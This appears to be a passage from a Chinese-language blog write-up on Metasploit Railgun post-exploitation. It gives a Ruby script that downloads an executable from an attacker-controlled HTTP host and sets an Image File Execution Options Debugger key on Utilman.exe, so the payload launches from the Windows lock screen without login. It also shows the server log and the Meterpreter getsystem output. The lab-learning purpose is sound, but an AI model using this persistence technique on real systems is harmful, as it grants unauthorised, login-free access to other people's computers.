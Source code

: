 我观察过，在添加前后，硬盘上的`urlmon.dll`的大小没有变化，所以这个添加操作应该是在内存中生效的？

关于这个下载函数的详细信息，参考[URLDownloadToFile function](https://technet.microsoft.com/en-us/windows/ms775123(v=vs.60))。其原型为：

```c
HRESULT URLDownloadToFile(
             LPUNKNOWN            pCaller,
             LPCTSTR              szURL,
             LPCTSTR              szFileName,
  _Reserved_ DWORD                dwReserved,
             LPBINDSTATUSCALLBACK lpfnCB
);
```

接着是调用函数下载文件并替换注册表的脚本：

```ruby
# my_railgun_demo.rb
mypath = "C:\\Users\\rambo\\Desktop\\a43.exe"
client.railgun.urlmon.URLDownloadToFileA(0, "http://172.16.56.1:8000/a43.exe",
                                        mypath, 0, 0)
key = "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\Utilman.exe"
syskey = registry_createkey(key)
registry_setvaldata(key, 'Debugger', mypath, 'REG_SZ')
```

测试：

攻击者开启HTTP服务器并把文件管理器放在根目录：

```
python -m http.server

172.16.56.108 - - [23/Oct/2018 21:02:49] "GET /a43.exe HTTP/1.1" 200 -
```

运行脚本：

```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > run my_urlmon
[*] Adding Function

meterpreter > run my_railgun_demo
```

果然，锁屏（可以用之前的RailGun方法让目标机器锁屏）后点击“轻松访问”，出现了文件管理器！

![Screen Shot 2018-10-23 at 9.24.49 PM.png]({{ site.url }}/images/metasploit/464EF9AE39AFC39433AA0710DFABEEBF.png)

现在，能够接触这台计算机的人无需登陆系统，就可以通过这个文件管理器实现各种功能了。太厉害了。

关于RailGun的更多信息可以参考[How to use Railgun for Windows post exploitation](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation)。

## 总结

基础挺重要的，将来抽时间学一下Ruby吧，这样回过头来看，许多疑问应该就可以迎刃而解。当然了，先研究Metasploit，在这个过程中缺啥补啥，最后带着问题去学Ruby，也是个不错的选择。

另外呢，这些代码看起来都不是很难，但是要想写出好的模块和脚本，需要深厚的系统知识功底。至少在这里，丰富的Windows API知识和注册表知识会为你的攻击提供很多灵感。

关于开发模块的更多信息，可以参考[rapid7/metasploit-framework:wiki](https://github.com/rapid7/metasploit-framework/wiki)。